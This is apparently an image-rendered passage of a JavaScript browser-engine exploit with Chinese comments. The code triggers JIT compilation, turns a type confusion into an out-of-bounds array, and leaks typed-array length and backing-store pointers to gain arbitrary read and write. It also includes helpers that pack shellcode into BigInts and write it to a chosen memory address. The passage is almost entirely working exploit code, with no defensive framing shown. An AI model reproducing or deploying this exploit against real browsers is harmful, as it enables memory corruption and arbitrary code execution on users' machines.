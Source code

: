 ```
    console.log("[+] convert confusion to oob......");

    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT

    main(empty);
    main(empty);

    main(p);
    console.log("   oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
    console.log("[+] get absolute read/write access......");

    // 相对于oob_array[0]的偏移
    uint64_length_offset = 16;
    uint64_externalptr_offset = 17;
    uint64_baseptr_offset = 18;
    // 用来保存这三个值
    uint64_length = f2i(oob_array[uint64_length_offset]);
    uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
    uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
    compress_head_high32_addr = uint64_externalptr_ptr & 0xffffffff00000000n;
    console.log("   uint64_length_offset: " + hex(uint64_length));
    console.log("   uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
    console.log("   uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));
    console.log("   compress_head_high32_addr: " + hex(compress_head_high32_addr));
}
// 将shellcode[]转化为BitInt
function byte_to_bigint_array(payload)
{

    let sc = []
    let tmp = 0n;
    let len_bigint = BigInt(Math.floor(payload.length/8))
    for (let i = 0n; i < len_bigint; i += 1n) {
        tmp = 0n;
        for(let j=0n; j<8n; j++){
            tmp += BigInt(payload[i*8n+j])*(0x1n<<(8n*j));
        }
        sc.push(tmp);
    }

    let len = payload.length%8;
    tmp = 0n;
    for(let i=0n; i<len; i++){
        tmp += BigInt(payload[len_bigint*8n+i])*(0x1n<<(8n*i));
    }
    sc.push(tmp);
    return sc;
}
// 任意地址写
function arw_write(addr, payload)
{
    sc = byte_to_bigint_array(payload);

    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
    oob_array[uint64_externalptr_offset] = i2f(addr);
    for(let i = 0; i < sc.length; i+=1) {
        uint64_arw[i] = sc[i];
    }
}
```